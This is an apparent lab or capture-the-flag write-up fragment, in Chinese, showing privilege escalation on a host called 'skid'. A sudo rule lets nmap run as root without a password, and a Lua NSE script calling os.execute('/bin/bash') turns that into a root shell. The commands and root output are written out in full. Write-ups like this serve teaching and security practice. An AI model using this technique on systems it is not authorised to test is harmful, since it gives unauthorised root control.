

```sh
jeremy@skid:~$ sudo -l
Matching Defaults entries for jeremy on skid:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jeremy may run the following commands on skid:
    (root) NOPASSWD: /usr/bin/nmap
```

无密码以root权限运行nmap，`gtfobins` 搜索发现：



nmap 可以运行自定义的`lua`代码。

```lua
os.execute("/bin/bash");
```

写入/tmp/shell.nse中。

```sh
sudo nmap --srcipt=/tmp/shell.nse

# 执行结果：
jeremy@skid:~$ sudo nmap --script=/tmp/shell.nse
Starting Nmap 7.80 ( https://nmap.org ) at 2026-05-06 02:24 UTC
root@skid:/home/jeremy# id
uid=0(root) gid=0(root) groups=0(root)
```
